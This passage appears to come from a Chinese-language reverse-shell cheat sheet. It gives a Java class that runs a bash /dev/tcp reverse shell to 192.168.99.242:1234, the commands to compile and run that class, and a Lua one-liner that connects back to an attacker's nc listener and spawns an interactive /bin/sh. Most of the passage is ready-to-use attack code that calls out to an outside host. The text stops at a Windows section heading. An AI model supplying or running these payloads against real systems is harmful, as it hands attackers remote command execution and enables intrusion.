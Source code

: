   * 第二步
  
    编写执行反弹shell命令的java恶意类，例如：
  
    ~~~java
    public class Revs {
        /**
        * @param args
        * @throws Exception 
        */
    public static void main(String[] args) throws Exception {
            // TODO Auto-generated method stub
            Runtime r = Runtime.getRuntime();
            String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process p = r.exec(cmd);
            p.waitFor();
        }
    }
    ~~~
  
  * 编译并执行恶意类，成功反弹shell
  
    ```bash
    javac Revs.java
    ```
  
    ~~~bash
    java Revs
    ~~~
  
  11. **Lua反弹**

Lua 是一个小巧的脚本语言。 其设计目的是为了嵌入应用程序中，从而为应用程序提供灵活的扩展和定制功能。Lua由标准C编写而成，几乎在所有操作系统和平台上都可以编译，运行。Lua并没有提供强大的库，这是由它的定位决定的。Lua 有一个同时进行的JIT项目，提供在特定平台上的即时编译功能。

**步骤**

* 第一步


攻击机：

~~~bash
nc -nvlp [port]
~~~

* 第二步


靶机：

~~~bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('[攻击机ip]','[port]');os.execute('/bin/sh -i <&3 >&3 2>&3');"
~~~

### Windows反弹shell
